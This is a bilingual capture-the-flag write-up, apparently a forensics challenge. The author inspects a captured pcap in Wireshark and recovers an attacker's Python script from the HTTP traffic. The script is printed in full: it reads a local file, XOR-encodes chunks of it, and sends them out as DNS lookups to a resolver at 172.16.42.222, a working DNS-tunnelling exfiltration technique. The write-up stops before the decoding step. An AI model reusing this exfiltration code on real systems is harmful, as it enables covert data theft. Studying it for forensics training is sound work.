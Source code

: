 # Old EXFIL but Gold

### SUBJECT

Nous soupçonnons une exfiltration de données.  
Nous avons capturé des données réseaux, à vous d'extraire le lien pour la prochaine étape !

We suspect data exfiltration.  
We have captured network data, it's up to you to extract the link for the next step !

### EXPLORING THE .PCAP
On the challenge page, we download a `.pcap` file.  
First reflex, open it in Wireshark in order to inspect its content.  

![ch02 Wireshark](/images/ch02-wireshark.png)

This file contains a record of network frames at a certain time.  
We can quickly isolate 3 different protocols:  
- TCP
- HTTP
- DNS

These protocols will be useful for us because their functions and uses allow certain processes that we will discover later.  

The HTTP packets being in clear, we filter them and analyze their contents.  

![ch02 http filter](/images/ch02-httpfilter.png)

We can observe that in the infos, there are two requests of type `GET` sending from the source and two positive answers of the destination.  
The first request ask for the page `/index.html`, constituted as below (after extracting the source code contained in clear in the request):

> Code

![ch02 index.html code](/images/ch02-indexhtmlraw.png)

> Rendering

![ch02 index.html](/images/ch02-indexhtml.png)

Given the following request, we can imagine that the attacker then downloaded the `dnstunnel.py` file.  
The advantage of HTTP being for us that the request is in clear, we have the possibility of seeing the content of this file and therefore the source code.  

![ch02 python code](/images/ch02-pythoncode.png)

We extract it and paste it into our favorite IDE to inspect the code and continue our journey.  

### READING AND UNDERSTANDING CODE

Here is the code we have in our hands :  

```python
#!/usr/bin/python3 
# I have no idea of what I'm doing 
 
#Because why not! 
import random 
import os 
 
f = open('data.txt','rb') 
data = f.read() 
f.close()

print("[+] Sending %d bytes of data" % len(data)) 

#This is propa codaz 
print("[+] Cut in pieces ... ") 

def encrypt(l): 
    #High quality cryptographer! 
    key = random.randint(13,254) 
    output = hex(key)[2:].zfill(2)
    for i in range(len(l)): 
        aes = ord(l[i]) ^ key 
        #my computer teacher hates me 
        output += hex(aes)[2:].zfill(2) 
    return output 

def udp_secure_tunneling(my_secure_data): 
    #Gee, I'm so bad at coding 
    #if 0: 
    mycmd = "host -t A %s.local.tux 172.16.42.222" % my_secure_data 
    os.system(mycmd) 
    #We loose packet sometimes? 
    os.system("sleep 1") 
    #end if 

def send_data(s): 
    #because I love globals 
    global n 
    n = n+1 
    length = random.randint(4,11) 
    # If we send more bytes we can recover if we loose some packets? 
    redundancy = random.randint(2,16) 
    chunk = data[s:s+length+redundancy].decode("utf-8") 
    chunk = "%04d%s"%(s,chunk) 
    print("%04d packet --> %s.local.tux" % (n,chunk)) 
    blob = encrypt(chunk) 
    udp_secure_tunneling(blob) 
    return s + length 
 
cursor = 0 
n=0 
while cursor<len(data): 
    cursor = send_data(cursor) 
 
#Is it ok? 
```

_Continued write-up tomorrow, 'going to sleep.._
